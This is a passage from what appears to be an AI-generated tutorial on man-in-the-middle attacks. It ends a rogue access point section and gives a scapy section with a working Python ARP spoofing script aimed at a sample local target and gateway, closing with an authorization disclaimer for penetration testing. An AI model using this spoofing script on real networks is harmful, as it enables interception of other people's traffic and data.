 - Use tools like Wireshark to capture traffic.
4. **Stop the Attack**:

- Stop the rogue AP and deauthentication attacks.

---

## 8\. **scapy**

Scapy is a powerful Python library for packet manipulation.

### Steps:

1. **Installation**:

```
sudo apt-get install scapy
```
2. **ARP Spoofing with Scapy**:

- Write a Python script to send ARP spoofing packets:

```
from scapy.all import *

def arp_spoof(target_ip, gateway_ip):
    target_mac = getmacbyip(target_ip)
    gateway_mac = getmacbyip(gateway_ip)
    send(ARP(op=2, pdst=target_ip, psrc=gateway_ip, hwdst=target_mac))
    send(ARP(op=2, pdst=gateway_ip, psrc=target_ip, hwdst=gateway_mac))

arp_spoof("192.168.1.100", "192.168.1.1")
```
3. **Capture Traffic**:

- Use Scapy to capture and analyze traffic.
4. **Stop the Attack**:

- Stop the script.

---

## **Conclusion**

This documentation provides a basic guide on how to perform a MITM attack using various tools. Always ensure you have proper authorization before conducting any penetration testing. Unauthorized access to networks or systems is illegal and unethical.

---

**Disclaimer**: This documentation is for educational purposes only. The author is not responsible for any misuse of this information. Always obtain proper authorization before performing any penetration testing.

New chat

AI-generated, for reference only